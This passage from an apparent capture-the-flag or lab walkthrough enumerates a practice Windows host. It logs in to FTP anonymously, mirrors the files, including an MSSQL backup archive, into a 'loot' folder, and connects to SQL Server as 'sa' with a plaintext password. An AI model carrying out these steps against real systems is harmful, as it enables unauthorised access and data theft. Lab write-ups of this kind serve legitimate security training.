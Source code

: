 ### FTP
TCP port 1221.
```bash
ftp 192.168.186.70 1221 # anonymous:anonymous

# output
Connected to 192.168.186.70.
220 Microsoft FTP Service
Name (192.168.186.70:victor): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
```

```bash
curl ftp://anonymous:anonymous@192.168.186.70:1221

# output
04-27-20  07:02PM                18866 Elementum Supremum.docx
04-27-20  07:02PM               764176 file_example_MP3_700KB.mp3
04-27-20  07:02PM                15690 img.jpg
04-27-20  07:02PM                  302 MSSQL_BAK.rar
04-27-20  07:02PM                  548 palindromes.txt
04-27-20  07:02PM                45369 server.jpg
```

```bash
cd loot/
wget -m ftp://192.168.186.70:1221 -nd
ls -al

# output
total 852
drwxr-xr-x 2 victor victor   4096 Aug 29 17:55  .
drwxr-xr-x 6 victor victor   4096 Aug 29 17:55  ..
-rw-r--r-- 1 victor victor  18866 Apr 27  2020 'Elementum Supremum.docx'
-rw-r--r-- 1 victor victor 764176 Apr 27  2020  file_example_MP3_700KB.mp3
-rw-r--r-- 1 victor victor  15690 Apr 27  2020  img.jpg
-rw-r--r-- 1 victor victor    340 Aug 29 17:55  .listing
-rw-r--r-- 1 victor victor    302 Apr 27  2020  MSSQL_BAK.rar
-rw-r--r-- 1 victor victor    548 Apr 27  2020  palindromes.txt
-rw-r--r-- 1 victor victor  45369 Apr 27  2020  server.jpg
```

### Microsoft SQL Server
TCP port 1435.
```bash
sqsh -S 192.168.186.70:1435 -U sa -P EjectFrailtyThorn425

# output
sqsh-2.5.16.1 Copyright (C) 1995-2001 Scott C. Gray
Portions Copyright (C) 2004-2014 Michael Peppler and Martin Wesdorp
This is free software with ABSOLUTELY NO WARRANTY
For more information type '\warranty'
1> 
```
